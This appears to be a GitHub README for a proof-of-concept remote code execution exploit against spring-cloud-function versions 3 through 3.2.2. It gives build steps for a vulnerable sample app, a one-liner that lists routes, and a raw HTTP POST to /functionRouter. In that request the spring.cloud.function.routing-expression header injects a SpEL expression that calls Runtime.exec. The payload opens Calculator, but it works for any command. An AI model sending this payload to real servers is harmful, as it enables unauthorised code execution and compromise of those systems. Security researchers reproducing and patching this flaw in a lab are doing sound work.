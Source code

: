 

# spring-spel-0day-poc
spring-cloud/spring-cloud-function RCE EXP POC
https://github.com/spring-cloud/spring-cloud-function
header
```
spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("open -a calculator.app")
```

## 受影响吧版本
SpringCloudFunction 3 <= 漏洞版本 <= 3.2.2

# build
```bash
wget https://github.com/spring-cloud/spring-cloud-function/archive/refs/tags/v3.1.6.zip
unzip v3.1.6.zip
cd spring-cloud-function-3.1.6
cd spring-cloud-function-samples/function-sample-pojo
mvn package
java -jar ./target/function-sample-pojo-2.0.0.RELEASE.jar
```
<img width="1236" alt="image" src="https://user-images.githubusercontent.com/18223385/160410727-35bf6bae-bb32-48c1-9081-edeef1e510f1.png">

# get path lists for test

```bash
find . -name "*.java"|xargs -I % cat %|grep -Eo '"([^" \.\/=>\|,:\}\+\)'"'"']{8,})"'|sort -u|sed 's/"//g'
```
```
...
functionRouter
uppercase
lowercase
...
```

<img width="829" alt="image" src="https://user-images.githubusercontent.com/18223385/160410037-12fd9be5-d35f-4009-9333-632eb29df54c.png">

# poc1

```
POST /functionRouter HTTP/1.1
host:127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.2 Safari/605.1.15
Connection: close
spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("open -a /System/Applications/Calculator.app")
Content-Length: 5

helloexp
```
